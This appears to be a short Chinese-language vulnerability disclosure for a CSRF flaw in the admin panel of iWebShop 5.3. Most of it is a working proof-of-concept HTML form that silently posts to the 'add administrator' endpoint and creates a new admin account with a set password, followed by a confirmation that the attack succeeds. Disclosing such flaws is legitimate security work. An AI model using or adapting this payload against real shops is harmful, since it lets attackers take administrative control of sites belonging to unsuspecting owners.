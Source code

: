 **iWebShop5.3后台存在CSRF漏洞**

1.在`管理员`->`添加管理员`功能处存在CSRF漏洞

！[image](https://imgchr.com/i/kzyrKe)
POC

`<html>`

  <body>

  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.138.132/iw/index.php?controller=system&action=admin_edit_act" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="admin&#95;name" value="test" />
      <input type="hidden" name="password" value="test888" />
      <input type="hidden" name="repassword" value="test888" />
      <input type="hidden" name="role&#95;id" value="0" />
      <input type="hidden" name="email" value="1&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  `</body>`
`</html>`

验证

![image](https://imgchr.com/i/kzysDH)

发现可以添加后台管理员

官网链接

`http://www.aircheng.com/`

